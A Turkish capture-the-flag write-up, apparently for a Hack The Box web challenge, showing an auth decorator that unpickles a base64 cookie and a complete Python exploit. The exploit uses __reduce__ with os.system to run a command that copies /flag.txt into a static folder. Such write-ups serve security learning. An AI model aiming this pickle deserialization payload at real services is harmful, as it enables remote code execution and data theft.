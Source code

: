 ```

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')

    return decorator
```


Yukarıdaki fonksiyon auth adlı cookie'yi alır ve eğer cookie mevcut değilse 401 Unauthorized yanıtı döndürür, ancak cookie mevcutsa cookie'nin base64 kodunu çözer ve üzerinde pickle.loads kullanır. Uygulama, güvenilmeyen verilerin kodunu çözüyor (“deserializing”) ve bu da komutun yürütülmesine neden oluyor

Bunu, bir sınıfta `__reduce__` metodunu uygulayarak exploit edebiliriz; bu sınıfın örneklerini pickle (serileştirme) edeceğiz. Pickle process'i sırasında çalıştırılacak bir callable (çağrılabilir) ve bazı argümanlar verebiliriz. Objeleri yeniden yapılandırmak için tasarlanmış olmasına rağmen, bunu kötüye kullanarak kodumuzu çalıştırmamız mümkün olur.

Bayrağı almak için aşağıdaki exploit'i kullanabiliriz

```
import requests
import pickle
import base64
import os
import time

url = 'http://83.136.253.1:57729'  # Hedef IP ve port
payload = f'cat /flag.txt > /app/application/static/js/flag.txt'

class RCE:
    def __reduce__(self):
        cmd = payload
        return os.system, (cmd,)

def exploit():
    pickled = pickle.dumps(RCE())
    r = requests.get(f'{url}/home', cookies={'auth': base64.urlsafe_b64encode(pickled).decode('utf-8')})
    
    while True:
        flag = requests.get(f'{url}/static/js/flag.txt')
        if 'HTB'.encode('utf-8') in flag.content:
            break
        time.sleep(5)
    
    print('[*] %s' % flag.content)

exploit()

```


![Pasted image 20250129211608.png](/img/user/Pasted%20image%2020250129211608.png)
